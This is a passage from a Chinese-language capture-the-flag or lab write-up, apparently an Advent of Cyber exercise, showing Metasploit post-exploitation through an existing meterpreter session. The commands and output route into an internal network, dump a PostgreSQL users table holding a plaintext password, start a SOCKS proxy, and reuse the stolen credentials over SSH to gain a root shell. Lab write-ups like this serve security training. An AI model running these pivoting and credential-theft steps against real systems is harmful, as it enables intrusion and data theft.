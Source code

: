 ```shell

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.17.0.1         255.255.255.255    Session 2
   172.28.101.51      255.255.255.255    Session 2

[*] There are currently no IPv6 routes defined.
```

接下来对数据库进行读取
```shell
# 获取数据库元信息
use auxiliary/scanner/postgres/postgres_schemadump
run postgres://postgres:postgres@172.28.101.51/postgres

# 获取数据库数据内容
use auxiliary/admin/postgres/postgres_sql
run postgres://postgres:postgres@172.28.101.51/postgres sql='select * from users'

[*] Running module against 172.28.101.51

Query Text: 'select * from users'
=================================

    id  username  password  created_at                  deleted_at
    --  --------  --------  ----------                  ----------
    1   santa     p4$$w0rd  2022-09-13 19:39:51.669279  NIL

[*] Auxiliary module execution completed
```
接下来，启动一个socks5代理
```shell
use auxiliary/server/socks_proxy
run srvhost=127.0.0.1 srvport=9050 version=4a
# 这一步主要是进入内网进行扫描，章节内容对此没有要求
```
继续，进行ssh登录攻击
```shell
use auxiliary/scanner/ssh/ssh_login
run ssh://santa:p4$$w0rd@172.17.0.1
# 整个过程如下
msf6 auxiliary(scanner/ssh/ssh_login) > run ssh://santa:p4$$w0rd@172.17.0.1

[*] 172.17.0.1:22 - Starting bruteforce
[+] 172.17.0.1:22 - Success: 'santa:p4$$w0rd' 'uid=0(root) gid=0(root) groups=0(root) Linux hostname 4.15.0-156-generic #163-Ubuntu SMP Thu Aug 19 23:31:58 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 3 opened (10.10.79.212-10.10.214.114:48544 -> 172.17.0.1:22) at 2022-12-18 08:52:32 +0000
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ssh/ssh_login) > sessions 

Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  2         meterpreter x86/linux  www-data @ 172.28.101.50  10.10.79.212:4433 -> 10.10.214.114:53064 (10.10.214.114)
  3         shell linux            SSH root @                10.10.79.212-10.10.214.114:48544 -> 172.17.0.1:22 (172.17.0.1)
```